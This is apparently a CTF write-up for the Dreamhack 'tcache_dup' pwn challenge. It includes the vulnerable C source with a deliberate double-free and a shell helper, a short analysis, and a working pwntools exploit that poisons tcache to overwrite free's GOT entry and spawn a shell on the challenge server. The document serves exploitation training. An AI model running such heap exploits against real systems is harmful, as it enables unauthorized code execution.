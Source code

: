 # tcache_dup - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 2
- Provided Files: libc-2.27.so, tcache_dup.c, tcache_dup(ELF)
- tools:
## Brief Description
## Initial Analysis
### Environment
``` sh
checksec tcache_dup
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
### Code
``` c
// gcc -o tcache_dup tcache_dup.c -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

char *ptr[10];

void alarm_handler() {
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int create(int cnt) {
    int size;

    if (cnt > 10) {
        return -1;
    }
    printf("Size: ");
    scanf("%d", &size);

    ptr[cnt] = malloc(size);

    if (!ptr[cnt]) {
        return -1;
    }

    printf("Data: ");
    read(0, ptr[cnt], size);
}

int delete() {
    int idx;

    printf("idx: ");
    scanf("%d", &idx);

    if (idx > 10) {
        return -1;
    }

    free(ptr[idx]);
}

void get_shell() {
    system("/bin/sh");
}

int main() {
    int idx;
    int cnt = 0;

    initialize();

    while (1) {
        printf("1. Create\n");
        printf("2. Delete\n");
        printf("> ");
        scanf("%d", &idx);

        switch (idx) {
            case 1:
                create(cnt);
                cnt++;
                break;
            case 2:
                delete();
                break;
            default:
                break;
        }
    }

    return 0;
}
```
## Vulnerability
### DFB(Double Free Bug)
``` c
int delete() {
    int idx;

    printf("idx: ");
    scanf("%d", &idx);

    if (idx > 10) {
        return -1;
    }

    free(ptr[idx]);
}
```
`free()` 시 어떠한 검증도 하지 않는다. 또한 libc-2.27을 사용하므로 관련 보호 기법이 없다.
## Exploit
### Strategy
DFB를 이용하여 `free()`의 GOT를 `get_shell()`의 주소로 덮어쓸 것이다. 또한 PIE가 비활성화 되어 있으므로, 바이너리에서 직접 찾은 주소를 그대로 사용할 수 있다. 
### Exploitation Steps
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
### payload
``` python
from pwn import *

p = remote('host8.dreamhack.games', 17184)
context.arch = "amd64"
e = ELF('./tcache_dup')
libc = ELF('x64/libc-2.27.so')

# func
def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b': ', str(size).encode())
    p.sendafter(b': ', data)

def delete(idx):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b': ', str(idx).encode())

# DFB
create(0x10, b'A'*8) # chunk A
delete(0) # tcache: chunk A
delete(0) # tcache: chunk A -> chunk A

# GOT overwrite
free = e.got['free']
get_shell = e.symbols['get_shell']
create(0x10, p64(free)) # tcache: chunk A -> free_got
create(0x10, b'A'*8) # tcache: free_got
create(0x10, p64(get_shell)) # overwrite free_got -> get_shell
delete(0)

# interactive
p.interactive()
```
